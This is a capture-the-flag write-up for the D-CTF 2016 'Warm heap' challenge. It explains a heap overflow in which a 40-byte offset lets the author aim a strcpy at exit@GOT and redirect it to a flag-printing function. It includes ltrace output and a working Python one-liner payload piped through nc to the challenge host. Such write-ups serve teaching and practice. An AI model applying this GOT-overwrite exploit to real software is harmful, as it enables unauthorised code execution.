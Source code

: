 ```yaml
---
layout: post
title: D-CTF Quals 2016 - Warm heap [Exploit]
author: mphx2
tags: [ctf, d-ctf, pwn]
---
```


 * Competition: https://dctf.def.camp/
 * Challenge Name: Warm heap
 * Type: Exploitation
 * Points: 100

<!--more-->

While analyzing the provided binary (ELF x64), only NX is enabled.
![PE]()

Inspecting it and putting a long string in the first line, a segmentation fault happens. Using the `ltrace` is possible to see exactly what is going on:

```bash
$ ltrace ./exp100.bin
__libc_start_main(0x4008a8, 1, 0x7ffdb143cf78, 0x4009c0 <unfinished ...>

...
fgets(AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA "AAA%AAsAABAA$AAnAACAA-AA(AADAA;A"..., 4096, 0x7f4d857ba8e0)               = 0x7ffdb143be80

strcpy(0x237a030, "AAA%AAsAABAA$AAnAACAA-AA(AADAA;A"...)                           = 0x237a030

fgets(BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"..., 4096, 0x7f4d857ba8e0)                 = 0x7ffdb143be80

strcpy(0x4141464141304141, "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"... <no return ...>

--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

As observed, using 40 bytes offset on the first line, we can control the first argument on the second `strcpy()`, the destination address. And with the second line we can control the second argument, the data being copied, so let's plan the strategy.

While reversing it, it is possible to see that the program calls a function `exit@GOT` at `0x601068` after the strings copies are done, so we can overwrite it with anything we want and it will be executed.

![got]()

During the binary inspection on IDA Pro, we can easily identify a function that prints the flag at 0x400826, as observed below:

![IDA Pro]()

So, we can overwrite the exit@GOT with the print flag function address.

```bash
$ python -c 'print "A"*40 + "\x68\x10\x60\x00\x00\x00\x00\x00" + "\n" + "\x26\x08\x40\x00\x00"'| nc 10.13.37.21 13371
```

And the flag comes up:

> DCTF{b94c21ff7531cba35a498cb074918b3e}

